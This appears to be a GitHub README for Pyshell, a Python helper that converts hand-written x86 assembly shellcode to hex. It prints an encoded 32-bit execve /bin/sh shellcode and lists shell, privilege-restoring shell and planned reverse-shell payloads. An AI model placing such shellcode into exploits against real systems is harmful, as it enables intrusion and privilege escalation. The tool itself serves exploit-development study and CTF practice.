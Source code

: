 # Pyshell
Some ASM shellcodes, with a python wrapper for easy asm->hex conversion.

### Usage

Simply launch the script with python3 and specify an assembler code:

```
entropy@undefined:~/Pyshell$ python3 pyshell.py asm/shell.32bit.nasm 
[+] Encoded:
 \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80
 ```
 
 ### ASM Shellcodes
 
 They are some handmade shellcode already in the `asm` directory:
  - `shell.32bit.nasm`          (Standart shellcode that pops a shell)
  - `priv_shell.32bit.nasm`     (Basic shell with privilege restoration)
    
 To add:
  - Read a file and print the content
  - Shell bound to a tcp port
  - Reverse shell over tcp
  - 64 bits shellcodes
